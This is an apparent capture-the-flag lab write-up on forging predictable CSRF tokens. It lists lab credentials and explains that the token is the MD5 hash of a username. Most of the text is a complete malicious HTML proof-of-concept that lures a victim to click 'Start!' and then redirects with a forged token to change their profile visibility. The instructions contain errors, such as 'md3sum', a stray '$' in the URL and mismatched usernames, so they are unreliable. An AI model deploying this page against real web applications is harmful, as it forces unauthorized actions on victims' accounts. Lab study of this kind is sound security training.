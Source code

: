 Credentials:
Mail: goldenpeacock467
Password : topcat

Open Web Tool and focus on the New tab, back to the user's profile and press change visibility and then Make Public.
Now we see the application the cookie md5 and with the terminal change the [echo -n goldenpeacock467 | md3sum]

When accession how robust a CSRF token generation mechanims is make sure for spend a small amount of time trying to come up
with the CSRF token generation mechanims.
Find below the malicius page. It as press_start_2_win.html.
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`$http://csrf.htb.net/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>
```

Svae the md5.min.js and place it in the dir where the malicius page reside.